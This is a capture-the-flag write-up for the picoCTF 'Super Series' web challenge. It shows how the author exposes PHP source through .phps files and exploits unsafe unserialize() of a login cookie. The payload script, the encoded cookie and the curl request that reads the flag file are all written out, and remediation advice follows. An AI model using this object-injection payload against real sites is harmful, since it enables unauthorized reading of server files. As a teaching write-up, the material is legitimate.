


# Super Series | picoCTF
## Description
Try to recover the flag stored on this website

## Analysis
When we open the given website we get the following:


When we try to parse any credentials, we get the following error:
```bash
Fatal error: Uncaught Exception: Unable to open database: unable to open database file in /var/www/html/index.php:5 Stack trace: #0 /var/www/html/index.php(5): SQLite3->__construct('../users.db') #1 {main} thrown in /var/www/html/index.php on line 5
```
As you can see the website cannot access the database. So trying SQL injection also did not work. I tried to see some patterns for Remote Code Execution but unsuccessful. Inspection also did not give any results.

Then I checked `robots.txt` and found this:


When we try to go to `/admin.phps` we get `404 Not Found`. But `admin.phps` gives us one important hint. We can use `.phps` extensions to view source code of the webpages. Developers use this extension to give others an opportunity to view the code. 

`/index.phps` give me the following code:
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
``` 
Now, we can see several things in the current code:
* We can observe the 5th line, where we get database error
* We discovered 2 new files: `cookie.php` and `authentication.php`

Visiting both `cookie.php` and `authentication.php` pages did not give me anything useful. However, using `.phps` extension revealed their code too.
cookie.php:
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

authentication.php:
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
Because I did not know anything about PHP language and serialization, I spent hours on this CTF. But finally, I found it!

## Solution
So the thing is that this webpage is vulnerable to **PHP Object Injection**. `cookie.phps` has the following try-catch statement:
```php
try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
}
	catch(Error $e){
		die("Deserialization error. ".$perm);
}
```
The first important thing, it is vulnerable because it trusts user's input blindly. Therefore, we can inject our own crafted cookie. The second important thing is the **magic methods** inside `class permissions`. These magic methods are `__toString()` and `__construct()`. We call them magic methods: `__toString()` runs when object is treated as string, `__constructor()` runs when object is created and gives the values to the properties of the object.

Why we are emphasizing these? Because as you can see in the `cookie.php` file the line `die("Deserialization error. ".$perm);` calls object `$perm` and because `.` is a string concatenation in PHP language, `$perm` object's `__toString()` method prints it in string format.

Now, where do we need to create our own object for injection? If you look at `authentication.php` code, you can see that it uses `require_once("cookie.php");`. More importantly, `access_log` class has not only magic methods but also `read_log()` method, which we will exploit. We will use this method to read our flag!

It is time to craft the payload cookie for this webpage. To do so we can create an empty `payload.php` file and code the following payload:
```php
<?php
class access_log{
        public $log_file;
        function __construct($lf) {
        $this->log_file = $lf;}
}
$payload = new access_log("../flag");

$cookie = urlencode(base64_encode(serialize($payload)));

echo $cookie;
```

This payload creates new `access_log` object with `$log_file` property. Then we assing the location of flag to this object using its "magic" method `__construct()` and encode it the way cookies were encoded in the `index.php` page.

After running the following code with `php payload.php`, we get the following output:
```bash
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

## Answer
After getting crafted cookie, I tried to insert it to the webpage using `Application`->`Cookies` in developer tools but I did not get any response from the browser. So I decided to use command `curl` to send the request with following cookie and got the following result:
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl http://wily-courier.picoctf.net:56229/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
Deserialization error. picoCTF{[REDACTED]}
```
## Remediation
To avoid **object injection**:
* Never use `unserialize()` on user input
* User `json_decode()` instead
* Avoid dangerous magic methods
* Implement proper authentication logic
